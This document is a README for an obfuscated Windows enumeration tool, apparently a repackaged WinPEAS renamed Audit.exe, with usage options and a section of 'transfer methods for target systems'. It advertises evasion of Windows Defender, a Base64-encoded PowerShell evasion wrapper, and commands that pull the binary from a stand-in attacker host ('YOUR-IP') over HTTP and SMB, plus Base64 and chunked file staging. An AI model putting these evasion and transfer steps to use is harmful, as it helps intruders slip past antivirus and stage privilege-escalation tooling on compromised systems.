 # Audit.exe 


This version of a tool that is obfuscated using Dotfuscator and is currently not detected by Windows Defender

This folder has the following contents
```
- Audit.exe      - modified metadata
- Audit.ps1      - B64 encoded exe with modified metadata in basic evasion wrapper 
- Audit64        - B64 encoded exe with modified metadata
- Audit-orig.exe - Basic Obfuscated Audit tool
```

## 🚀 How to Use Obfuscated Audit

```
Basic Usage:
# Run basic scan
.\Audit.exe

# Run with output to file
.\Audit.exe > results.txt

# Run specific checks only
.\Audit.exe systeminfo
```

### Advanced Usage Options:
```
# Fast scan (reduced checks)
.\Audit.exe fast

# Specific category checks
.\Audit.exe systeminfo,userinfo,processinfo

# Quiet mode (less output)
.\Audit.exe quiet

# Enable colors in Windows Terminal
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
.\Audit.exe
```


## 🎯 Transfer Methods for Target Systems

### Method 1: PowerShell Download
```
IEX(New-Object Net.WebClient).DownloadFile('http://YOUR-IP:8000/Audit.exe','Audit.exe')
```

### Method 2: Base64 Transfer
```
$fileBytes = [System.IO.File]::ReadAllBytes("C:\Users\AKend\Downloads\ObfuscatedWinPEAS\mypea\Audit.exe")
$base64 = [Convert]::ToBase64String($fileBytes)
$base64 | Out-File SymAudit.txt
```

```
$base64 = Get-Content Audit.txt
$bytes = [Convert]::FromBase64String($base64)
[IO.File]::WriteAllBytes("Audit.exe", $bytes)
.\Audit.exe
```

### Method 3: SMB Share
```
copy \\YOUR-IP\share\Audit.exe .
.\Audit.exe
```


## Method 4: Chunking
```
# Method B: Split into multiple files
$chunkSize = 1MB
$chunks = [math]::Ceiling($bytes.Length / $chunkSize)
for ($i = 0; $i -lt $chunks; $i++) {
    $start = $i * $chunkSize
    $end = [math]::Min($start + $chunkSize - 1, $bytes.Length - 1)
    $chunk = $bytes[$start..$end]
    [System.IO.File]::WriteAllBytes("part_$i.dat", $chunk)
}
```
